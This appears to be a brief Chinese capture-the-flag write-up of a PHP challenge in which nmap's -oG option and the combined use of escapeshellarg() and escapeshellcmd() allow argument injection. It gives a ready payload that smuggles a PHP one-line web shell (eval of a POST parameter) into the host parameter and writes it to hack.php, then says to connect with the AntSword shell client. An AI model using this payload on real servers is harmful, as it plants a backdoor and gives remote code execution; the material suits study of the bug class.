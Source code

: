 考察知识点：

1.nmap -oG参数具有写文件操作

2.PHP escapeshellarg()+escapeshellcmd() 之殇

两个函数搭配会使原来的转义效果，消失

https://paper.seebug.org/164/



1. 构造一句话木马访问即可

```javascript
?host=<?php @eval($_POST["hack"]);?> -oG hack.php
```



![](images/601B5E1515B64282882D8C149F5F029Bclipboard.png)



2.蚁剑访问即可

